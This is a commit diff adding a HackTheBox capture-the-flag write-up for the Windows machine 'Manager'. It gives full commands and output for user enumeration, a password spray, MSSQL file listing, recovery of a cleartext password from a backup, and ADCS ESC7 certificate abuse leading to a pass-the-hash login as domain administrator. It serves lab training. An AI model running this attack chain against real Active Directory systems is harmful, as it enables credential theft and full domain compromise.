

Before and after one commit to Udo29/udo29.github.io, a Jekyll site: the page built from _pages/publications.md, in a window 1280 px wide and 1055 px high. Shown: the whole window at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Add manager WU
Add manager WU

````diff
--- /dev/null
+++ b/_publications/Manager.md
@@ -0,0 +1,374 @@
+---
+title: "Manager"
+collection: publications
+permalink: /publication/WU-Manager
+excerpt: 'This is the write-up of the machine Manager from HackTheBox.'
+date: 2023-10-21
+venue: 'Manager'
+paperurl: 'http://academicpages.github.io/files/manager.pdf'
+citation: ''
+---
+
+![](../images/machine/banner.png)
+
+![](../images/machine/manager/Manager.png)
+
+
+
+
+### Description:
+
+This machine is based on Windows. Enumeration reveals an Active Directory environment. First step is to enumerate users and doing a password spray attack to gain access to SQL server on the machine. On this server, we found a backup of the website containing clear credentials used to gain a shell. Last step is to exploit the Active Directory Certificate Services to elevate our privileges.
+
+### Difficulty:
+
+`medium`
+
+### Flags:
+
+User: `e49ce14aad<...>a52716d1d3`
+
+Root: `d605dc1021<...>7bf8b86c79`
+
+# Enumeration
+
+Let's start by discovering all open ports on the machine:
+
+```sh
+nmap -p- -sV 10.10.11.236 -t4
+
+PORT STATE SERVICE VERSION
+53/tcp open domain Simple DNS Plus
+80/tcp open http Microsoft IIS httpd 10.0
+88/tcp open kerberos-sec Microsoft Windows Kerberos
+135/tcp open msrpc Microsoft Windows RPC
+139/tcp open netbios-ssn Microsoft Windows netbios-ssn
+389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb., Site: Default-First-Site-Name)
+445/tcp open microsoft-ds?
+464/tcp open kpasswd5?
+593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
+636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
+1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000
+3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb., Site: Default-First-Site-Name)
+3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
+5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
+9389/tcp open mc-nmf .NET Message Framing
+49667/tcp open msrpc Microsoft Windows RPC
+49669/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
+49670/tcp open msrpc Microsoft Windows RPC
+49671/tcp open msrpc Microsoft Windows RPC
+49728/tcp open msrpc Microsoft Windows RPC
+60880/tcp open msrpc Microsoft Windows RPC
+60963/tcp open unknown
+Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
+```
+
+To sum it up, there are an Active Directory environment, an SQL server, an SMB service and a web server.
+The domain name for the Active Directory is `manager.htb`, and the machine is `dc01.manager.htb` which we can add to our `/etc/hosts`.
+
+First of all, we check the website. It appears to be a static website without functioning functionalities.
+The directory bruteforcing does not gives more informations.
+
+Then we check the SMB service to see what information we can gather. Seems like we can authenticate with a null session.
+
+```sh
+smbclient -L \\\\10.10.11.236\\ -N
+Sharename Type Comment
+--------- ---- -------
+ADMIN$ Disk Remote Admin
+C$ Disk Default share
+IPC$ IPC Remote IPC
+NETLOGON Disk Logon server share
+SYSVOL Disk Logon server share
+```
+Now, let's enumerate our Active Directory.
+We'll use [go-windapsearch](https://github.com/ropnop/go-windapsearch) and [kerbrute](https://github.com/ropnop/kerbrute). This will help us enumerate users on the AD.
+
+```sh
+┌──(kali㉿kali)-[~/htb]
+└─$ ./windapsearch-linux-amd64 -d 10.10.11.236 --module metadata
+dnsHostName: dc01.manager.htb
+domainControllerFunctionality: 7
+forestFunctionality: 7
+domainFunctionality: 7
+defaultNamingContext: DC=manager,DC=htb
+```
+Users don't have preauth activated, so we can use `Kerbrute` to enumerate our users.
+How Kerbrute works for `userenum`:
+> To enumerate usernames, Kerbrute sends TGT requests with no pre-authentication. If the KDC responds with a PRINCIPAL UNKNOWN error, the username does not exist. However, if the KDC prompts for pre-authentication, we know the username exists and we move on. This does not cause any login failures so it will not lock out any accounts. This generates a Windows event ID 4768 if Kerberos logging is enabled.
+
+```sh
+┌──(kali㉿kali)-[~/htb]
+└─$ ./kerbrute_linux_amd64 userenum -d manager.htb --dc 10.10.11.236 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -o kerb_user.txt
+
+    __             __               __
+   / /_____  _____/ /_  _______  __/ /____
+  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
+ / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
+/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/
+
+Version: v1.0.3 (9dad6e1) - 10/24/23 - Ronnie Flathers @ropnop
+
+2023/10/24 14:13:59 >  Using KDC(s):
+2023/10/24 14:13:59 >  	10.10.11.236:88
+
+2023/10/24 14:14:00 >  [+] VALID USERNAME:	 ryan@manager.htb
+2023/10/24 14:14:06 >  [+] VALID USERNAME:	 guest@manager.htb
+2023/10/24 14:14:07 >  [+] VALID USERNAME:	 cheng@manager.htb
+2023/10/24 14:14:07 >  [+] VALID USERNAME:	 raven@manager.htb
+2023/10/24 14:14:12 >  [+] VALID USERNAME:	 administrator@manager.htb
+2023/10/24 14:14:33 >  [+] VALID USERNAME:	 Ryan@manager.htb
+2023/10/24 14:14:34 >  [+] VALID USERNAME:	 Raven@manager.htb
+2023/10/24 14:14:36 >  [+] VALID USERNAME:	 operator@manager.htb
+2023/10/24 14:15:35 >  [+] VALID USERNAME:	 Guest@manager.htb
+2023/10/24 14:15:35 >  [+] VALID USERNAME:	 Administrator@manager.htb
+2023/10/24 14:16:27 >  [+] VALID USERNAME:	 Cheng@manager.htb
+2023/10/24 14:18:21 >  [+] VALID USERNAME:	 jinwoo@manager.htb
+2023/10/24 14:18:37 >  [+] VALID USERNAME:	 RYAN@manager.htb
+```
+
+It seems that we have 7 users on the AD.
+```
+ryan
+guest
+cheng
+raven
+administrator
+operator
+jinwoo
+```
+
+> Note that this is not the only way to enumerate users here. We could have done it with RID cycling, which is a way to enumerate users based on increasing the RID part of the SID. This is only possible if we can authenticate with a null sesssion to the SMB service.
+
+Now that we have our users list, we can go and try a password spray attack with the `password = user`.
+
+```sh
+┌──(kali㉿kali)-[~/htb/windows]
+└─$ netexec smb 10.10.11.236 -u users.txt -p users.txt --no-bruteforce
+SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
+SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE
+SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE
+SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE
+SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE
+SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE
+SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
+```
+
+Now we have a username and a password: `operator:operator`.
+
+# Foothold
+
+We can connect to the SQL server using the `mssqlclient` from `impacket`.
+
+```sh
+┌──(kali㉿kali)-[~/htb/windows]
+└─$ impacket-mssqlclient -windows-auth -port 1433 -dc-ip 10.10.11.236 "manager.htb/operator:operator"@10.10.11.236
+Impacket v0.11.0 - Copyright 2023 Fortra
+
+[*] Encryption required, switching to TLS
+[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
+[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
+[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
+[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database contNowext to 'master'.
+[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
+[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
+[!] Press help for extra shell commands
+SQL (MANAGER\Operator  guest@master)> help
+
+    lcd {path}                 - changes the current local directory to {path}
+    exit                       - terminates the server process (and this session)
+    enable_xp_cmdshell         - you know what it means
+    disable_xp_cmdshell        - you know what it means
+    enum_db                    - enum databases
+    enum_links                 - enum linked servers
+    enum_impersonate           - check logins that can be impersonate
+    enum_logins                - enum login users
+    enum_users                 - enum current db users
+    enum_owner                 - enum db owner
+    exec_as_user {user}        - impersonate with execute as user
+    exec_as_login {login}      - impersonate with execute as login
+    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
+    xp_dirtree {path}          - executes xp_dirtree on the path
+    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
+    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
+    ! {cmd}                    - executes a local shell cmd
+    show_query                 - show query
+    mask_query                 - mask query
+
+```
+
+By using `xp_dirtree`, we can list files. Going to the web server root directory, we have the following files:
+
+```sh
+SQL (MANAGER\Operator  guest@msdb)> xp_dirtree /inetpub/wwwroot
+subdirectory                      depth   file
+-------------------------------   -----   ----
+about.html                            1      1
+
+contact.html                          1      1
+
+css                                   1      0
+
+images                                1      0
+
+index.html                            1      1
+
+js                                    1      0
+
+service.html                          1      1
+
+web.config                            1      1
+
+website-backup-27-07-23-old.zip       1      1
+```
+
+Turns out there is a backup of the website accessible to download.
+
+```sh
+┌──(kali㉿kali)-[~/htb/manager]
+└─$ curl http://10.10.11.236/website-backup-27-07-23.old.zip -o test.zip
+
+┌──(kali㉿kali)-[~/htb/manager]
+└─$ ls -la
+total 1092
+drwxr-xr-x 5 kali kali    4096 Oct 24 15:57 .
+drwxr-xr-x 7 kali kali    4096 Oct 24 14:23 ..
+-rw-r--r-- 1 kali kali     698 Jul 27 05:35 .old-conf.xml
+-rw-r--r-- 1 kali kali    5386 Jul 27 05:32 about.html
+-rw-r--r-- 1 kali kali    5317 Jul 27 05:32 contact.html
+drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 css
+drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 images
+-rw-r--r-- 1 kali kali   18203 Jul 27 05:32 index.html
+drwxr-xr-x 2 kali kali    4096 Oct 24 15:57 js
+-rw-r--r-- 1 kali kali    7900 Jul 27 05:32 service.html
+-rw-r--r-- 1 kali kali 1045328 Oct 24 15:57 test.zip
+
+┌──(kali㉿kali)-[~/htb/manager]
+└─$ cat .old-conf.xml
+<?xml version="1.0" encoding="UTF-8"?>
+<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
+   <server>
+      <host>dc01.manager.htb</host>
+      <open-port enabled="true">389</open-port>
+      <secure-port enabled="false">0</secure-port>
+      <search-base>dc=manager,dc=htb</search-base>
+      <server-type>microsoft</server-type>
+      <access-user>
+         <user>raven@manager.htb</user>
+				 <password>R4v3nBe5tD3veloP3r!123</password>
+      </access-user>
+      <uid-attribute>cn</uid-attribute>
+   </server>
+   <search type="full">
+      <dir-list>
+         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
+      </dir-list>
+   </search>
+</ldap-conf>
+```
+
+We find the password for the username raven: `R4v3nBe5tD3veloP3r!123`.
+
+Now we can try to connect with this password to WinRM.
+
+```sh
+┌──(kali㉿kali)-[~/htb/manager]
+└─$ evil-winrm -u raven -p 'R4v3nBe5tD3veloP3r!123' -i dc01.manager.htb
+
+*Evil-WinRM* PS C:\Users\Raven\Documents> cat ../Desktop/user.txt
+e49ce14<...>716d1d3
+```
+
+# Privilege Escalation
+
+As there is an Active Directory Certificate Service, we will use [Certipy](https://github.com/ly4k/Certipy) to find out if there are some vulnerabilities.
+
+```sh
+certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'  -dc-ip 10.10.11.236
+
+<...>
+
+[!] Vulnerabilities
+      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
+```
+
+It looks like we can use the escalation technique ESC7.
+
+> ESC7 is when a user has the Manage CA or Manage Certificates access right on a CA. There are no public techniques that can abuse the Manage Certificates access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests.
+
+This escalation technique is when a user has the `Manage CA` or `Manage Certificates` access right on a Certificate Authorithy.
+
+The steps to exploit this technique is shown in the github of the tool.
+
+First step is to give the Manage Certificates permission to the user `Raven`: (note that we can do this only because the user `Raven` has ManageCa rights.)
+
+```sh
+certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
+
+[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
+```
+
+As this is temporary because of resets, we have to act fast or repeat the above step in case on problem.
+
+Now the attack steps are the following:
+
+- Request a certificate based on the `SubCa` template:
+
+```sh
+certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
+
+[*] Requesting certificate via RPC
+[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
+[*] Request ID is 13
+Would you like to save the private key? (y/N) y
+[*] Saved private key to 13.key
+[-] Failed to request certificate
+```
+
+It is normal to have a failed response, what matters here is the request ID.
+
+With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the -issue-request <request ID> parameter.
+
+```sh
+certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
+
+[*] Successfully issued certificate
+```
+
+And finally, we can retrieve the issued certificate with the req command and the -retrieve <request ID> parameter.
+
+```sh
+certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
+
+[*] Rerieving certificate with ID 13
+[*] Successfully retrieved certificate
+[*] Got certificate with UPN 'administrator@manager.htb'
+[*] Certificate has no object SID
+[*] Loaded private key from '13.key'
+[*] Saved certificate and private key to 'administrator.pfx'
+
+```
+
+Now we can authenticate with the `administrator.pfx` file.
+
+```sh
+certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
+Certipy v4.8.2 - by Oliver Lyak (ly4k)
+
+[*] Using principal: administrator@manager.htb
+[*] Trying to get TGT...
+[*] Got TGT
+[*] Saved credential cache to 'administrator.ccache'
+[*] Trying to retrieve NT hash for 'administrator'
+[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
+```
+
+Last step is to connect to WinRM as `administrator` with the hash we got above.
+
+```sh
+──(kali㉿kali)-[~/htb/manager]
+└─$ evil-winrm -u administrator -H ae5064c2f62317332c88629e025924ef -i dc01.manager.htb
+
+*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
+d605dc102172ddfb0da7437bf8b86c79
+```
````
Also changed, not shown: _publications/Zipping.md (+0 -1 lines), images/machine/manager/Manager.png (added), 3 other files.
